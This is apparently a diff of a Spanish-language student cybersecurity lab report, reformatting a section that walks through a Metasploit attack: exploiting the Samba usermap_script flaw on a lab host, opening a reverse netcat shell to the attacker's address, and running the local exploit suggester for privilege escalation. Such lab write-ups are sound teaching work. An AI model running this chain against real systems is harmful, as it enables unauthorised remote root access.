

Before and after one commit to Jrgil20/PracticasCiberSeguridad, a Markdown page: Practica8/Practica8.md, the part around the change printed below. Shown: that part at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Práctica lista

````diff
--- a/Practica8/Practica8.md
+++ b/Practica8/Practica8.md
@@ -451,43 +449,45 @@ Una vez preparado el entorno, solo queda esperar a que un script o proceso privi
 En nuestro caso, esta técnica resultó ser la más fluida y fácil de ejecutar, ya que solo requiere la preparación del entorno y esperar a que un proceso vulnerable se active, sin necesidad de exploits complejos o configuraciones específicas.
 
 -----
-**
 
-**🎯 TÉCNICA BONUS: Metasploit Local Exploit Suggester**
+### **🎯 TÉCNICA BONUS: Metasploit Local Exploit Suggester**
 
-**Desde Kali con Metasploit**
+Este método emplea el **Metasploit Framework** (`msfconsole`) para automatizar tanto la explotación inicial de un servicio vulnerable como el proceso de identificación y sugerencia de exploits de escalada de privilegios local.
 
-\# Si tienes una sesión de Meterpreter activa
+#### Paso 1: Obtención de Acceso Inicial (Explotación Remota)
 
-msfconsole
+En esta fase, se utiliza un módulo de explotación remota conocido para obtener la primera *shell* en la máquina objetivo.
 
-\# Obtener sesión primero (ejemplo con usermap\_script)
+| Comando | Propósito | Contexto de Seguridad |
+| :--- | :--- | :--- |
+| **`msfconsole`** | Inicia la consola principal de **Metasploit Framework**. | Es el entorno desde donde se lanzan todos los exploits y módulos. |
+| **`use exploit/multi/samba/usermap_script`** | Carga un exploit para una vulnerabilidad de **Samba** (CVE-2007-2447). | Se aprovecha una falla que permite la ejecución de comandos como `root` a través del mapeo de usuarios. |
+| **`set RHOSTS <192.168.100.20>`** | Define la **dirección IP remota** del sistema objetivo. | Establece la víctima del ataque. |
+| **`set payload cmd/unix/reverse_netcat`** | Configura la carga útil para una **conexión de retorno (*reverse shell*)**. | El objetivo es que la máquina comprometida se conecte de vuelta a la máquina atacante. |
+| **`set LHOST <192.168.100.9>`** | Define la **dirección IP local** del atacante (donde Metasploit escucha). | Establece el punto de recepción de la *reverse shell*. |
+| **`exploit`** | Ejecuta el exploit. | Si es exitoso, se obtiene una **sesión de *shell* activa** en la máquina objetivo. |
 
-msf6 > use exploit/multi/samba/usermap\_script
+---
 
-msf6 exploit > set RHOSTS <192.168.100.20>
+#### Paso 2: Puesta en Segundo Plano de la Sesión
 
-msf6 exploit > set payload cmd/unix/reverse\_netcat
+Una vez obtenida la sesión, se requiere ponerla en *background* para liberar la consola y permitir la ejecución de otros módulos de post-explotación.
 
-msf6 exploit > set LHOST <192.168.100.9>
+```bash
+^Z  # Ctrl+Z: Se utiliza para detener la ejecución y salir de la sesión.
+y   # Confirma que se desea enviar la sesión al background, asignándole un número de SESSION (ej. SESSION 1).
+```
 
-msf6 exploit > exploit
+#### Paso 3: Análisis y Sugerencia de Exploits Locales
 
-\# Una vez con shell, background
+Para la fase de escalada de privilegios local, se utiliza un módulo auxiliar de Metasploit que automatiza la búsqueda de vulnerabilidades.
 
-^Z  # Ctrl+Z
-
-y
-
-\# Usar suggester
-
-msf6 > use post/multi/recon/local\_exploit\_suggester
-
-msf6 post > set SESSION 1
-
-msf6 post > run
-
-\# Revisar exploits sugeridos y probarlos
+| Comando | Propósito | Contexto de Seguridad |
+| :--- | :--- | :--- |
+| **`use post/multi/recon/local_exploit_suggester`** | Carga el módulo de post-explotación para la **sugerencia de exploits locales**. | Este módulo analiza la versión del Kernel y del sistema operativo del objetivo. |
+| **`set SESSION 1`** | Indica al módulo que use la **sesión activa** obtenida previamente. | Vincula el módulo a la máquina objetivo comprometida. |
+| **`run`** | Ejecuta el análisis del módulo. | El módulo compara la información del sistema con las vulnerabilidades conocidas y lista los exploits de escalada de privilegios compatibles (como Dirty COW) que pueden ser probados a continuación. |
+| **`# Revisar exploits sugeridos y probarlos`** | Nota del auditor. | El paso final del proceso es seleccionar uno de los exploits sugeridos por Metasploit e intentar la escalada de privilegios a `root`. |
 
 -----
 **📊 ENTREGABLES DEL EQUIPO 4**
````
Also changed, not shown: other parts of Practica8/Practica8.md (+61 -31 lines).
